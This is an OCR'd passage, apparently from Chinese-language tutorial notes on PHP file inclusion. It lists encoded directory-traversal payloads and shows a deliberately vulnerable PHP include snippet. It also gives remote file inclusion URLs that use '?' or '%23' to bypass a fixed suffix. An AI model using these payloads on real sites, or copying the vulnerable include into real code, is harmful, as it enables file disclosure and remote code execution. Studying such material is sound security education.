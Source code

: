```
%252e%252e%255c
```

###### 容器/服务器的编码方式

../

```
..%c0%af  
%c0%ae%c0%ae/  注：java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
```

注：[Why does Directory traversal attack %C0%AF work?](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)

..\

```
..%c1%9c	
```

##### 3. 指定后缀

###### 代码：

```php
<?php
 	$file = $_GET['file'];
 	include $file.'/test.php';
 	echo "Hello happen!";
 ?>
```

这段代码指定了包含文件的后缀，若是直接包含，出错

![image-20200303161320604](C:\Users\shy\AppData\Roaming\Typora\typora-user-images\image-20200303161320604.png)

服务器实际的拼接路劲：/phpinfo.jpg/test.php

###### 利用URL

```
protocol :// hostname[:port] / path / [;parameters][?query]#fragment
```

在远程文件包含漏洞（RFI）中，可以利用query或fragment来绕过后缀限制。

###### 姿势一：query(?)

```
1.php?file=http://127.0.0.1/wenjianbaohan/phpinfo.jpg?
```

服务器拼接的路径：1.php?file=http://127.0.0.1/wenjianbaohan/phpinfo.jpg?/test/test.php

问号后面的部分 /test/test.php，也就是指定的后缀被当作query从而被绕过

###### 姿势二：fragment（#）

```
1.php?file=http://127.0.0.1/wenjianbaohan/phpinfo.jpg%23
```
